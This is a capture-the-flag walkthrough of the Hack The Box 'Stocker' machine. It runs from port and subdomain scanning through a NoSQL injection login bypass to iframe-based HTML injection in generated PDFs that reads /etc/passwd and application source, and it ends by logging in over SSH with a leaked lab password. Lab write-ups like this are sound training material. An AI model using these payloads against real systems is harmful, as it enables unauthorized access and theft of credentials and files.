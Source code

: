 # Box: Stocker
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.228.197 -v -p- -T4```

```
Nmap scan report for stocker.htb (10.129.228.197)
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-title: Stock - Coming Soon!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 32.171 days (since Thu Sep 21 23:48:56 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   189.37 ms 10.10.14.1
2   189.55 ms stocker.htb (10.129.228.197)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 24 03:55:08 2023 -- 1 IP address (1 host up) scanned in 706.90 seconds
```
From our scan we have 2 open ports, port 22 and port 80. Our enumeration today will be focused on port 80




# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6a2b79b8-6952-4f43-8c0e-ac68df66a410)

Add the domain name ```stocker.htb``` to your ``/etc/hosts``` file.

We should be able to view the webpage now

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a70cdd08-d99d-4d0e-969e-03b8462c5942)

cool, we can now view the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f45a4b6-05ed-4198-973b-7e81208ce94e)

I fuzzed for directories but didn't find anything useful.

Lets fuzz for subdomains using ```gobuster```

command:```gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/stocker]
└─$ gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

We can see the subdomain ```dev.stocker.htb```, add this to your ```/etc/hosts``` file and navigate to the subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/16046452-a7cb-4bc1-aa17-3ab186c9d8f9)

We have a login page. Checking wappalyzer I saw that the javascript framework being used for that subdomain is ```express```

The login form can be exploited to be bypassed using NoSQL and also by changing the "Content-Type" from ```application/x-www-form-urlencoded``` to ```application/json```

Lets capture the login request using burpsuite then we send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02c24101-710e-4401-a45c-69aa5d689cec)

We'll be using the NoSQL payload

```json
{"username": {"$gt":""}, "password": {"$gt":""}}
```
This will help bypass the login page, after modifying the request you should have something like this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a21b25ae-bea1-4b29-b55d-6617398be11d)

Send the request, you should get a response like this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2e21fbe7-9a90-421a-a9cc-e9b04d0a3a19)

nice nice, now lets follow redirection

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d0e09393-92b8-4945-80aa-c4d97a41ee13)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ebd8e346-4cbb-480e-a632-3715addb5c13)

Smooth we are logged in. Lets view this response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/62e6172f-9fad-4212-b2e6-1c0349804c44)

smooth😎.

Now, how does this application work

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f57b04e-1c9d-41e3-aded-1fd580e3eb65)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d8c8894c-6610-4eff-9497-365a55268a3f)

Lets add the cup to our basket

You should see this when you try to "view cart"

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/68611398-e303-4046-9f99-d2b2fb1cbb24)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b63ea42b-a15f-46e6-87fd-0ee90b955ca8)

So, after submitting we get an "order id" and also the purchase order. Lets take a look at the purchase order

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/aae167ea-6452-4b6b-8dc0-536c59ad4cd8)

Take note of the url ```http://dev.stocker.htb/api/po/{orderid}```. We can also see the name of the purchaser from the above screenshot, ```angoose``` is the purchaser's name.

Lets repeat the ordering process again, but this time we'll capture the request using burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2fb013f6-e0b5-483a-9d38-3106245f1f57)

Lets try to add a script that will read the ```/etc/passwd``` file,

```html
<iframe src=/etc/passwd height=500 width=500></iframe>
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/597dcdc1-8c6f-46d9-8905-4965940a6cb3)

We got the order id, lets view the purchase order here ```http://dev.stocker.htb/api/po/65373f42517120235afe321a```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f0ad5d97-c507-424a-9358-da82ba078f9e)

nice nice, we were able to read the ```/etc/passwd``` file

Earlier, when I was trying to bypass the login page, I caused a json error and it revealed the full path to the base folder where the Express application is on the file system

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/909260fe-f316-406e-99f8-e561d4eb12e8)

So the full path to the base folder is ```/var/www/dev```

Lets try to read the ```server.js``` file

```json
<iframe src=file:///var/www/dev/index.js height=1000px width=1000px></iframe>
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e67af4ec-175c-4f07-8251-e6e01e8bb17f)

Lets view the purchase order

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a9f76ff3-53e8-4e02-8be5-0ffdb13f4863)

We can see the password the web application uses to connect to the Mongo database. Since we have the username lets try to ssh into the server using the creds we found

username:```angoose```        password:```IHeardPassphrasesArePrettySecure```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e770b9cd-cfbd-4bef-9813-304a7299fe07)

We got user shell. Lets escalate our privileges




# Privilege Escalation

Running the command ```sudo -l```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cd11d7a4-daeb-4af3-9276-c612ef81f5e7)






















